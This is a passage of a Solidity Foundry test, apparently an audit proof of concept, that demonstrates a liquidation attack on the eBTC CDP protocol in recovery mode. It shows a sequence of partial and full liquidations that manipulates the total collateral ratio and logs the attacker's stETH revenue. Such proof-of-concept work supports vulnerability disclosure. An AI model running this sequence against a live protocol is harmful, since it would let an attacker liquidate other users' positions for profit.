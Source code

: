 ```solidity
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

```